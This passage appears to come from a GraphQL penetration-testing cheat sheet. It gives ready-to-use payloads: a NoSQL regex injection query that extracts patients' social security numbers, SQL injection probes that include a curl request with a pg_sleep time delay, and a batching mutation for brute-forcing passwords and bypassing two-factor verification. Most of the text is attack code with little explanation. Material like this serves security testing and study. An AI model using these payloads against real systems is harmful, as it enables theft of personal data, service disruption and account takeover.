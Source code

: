 ```json
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL injection

Send a single quote `'` inside a graphql parameter to trigger the SQL injection

```powershell
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

### GraphQL Batching Attacks

Common scenario:
* Password Brute-force Amplification Scenario
* 2FA bypassing

```powershell
mutation finishChannelVerificationMutation(
  $input FinishChannelVerificationInput!,
  $input2 FinishChannelVerificationInput!,
  $input3 FinishChannelVerificationInput!,
){
  first: finishChannelVerificationMutation(input: $input){
    channel{
      id
      option{
        ... onChannelSmsOptions{
          number
        }
      }
      status
      notificationSubscription(last: 1000){ etc...  }
    }
  }


  second: finishChannelVerificationMutation(input: $input2){...}
  third: finishChannelVerificationMutation(input: $input3){...}
}
```

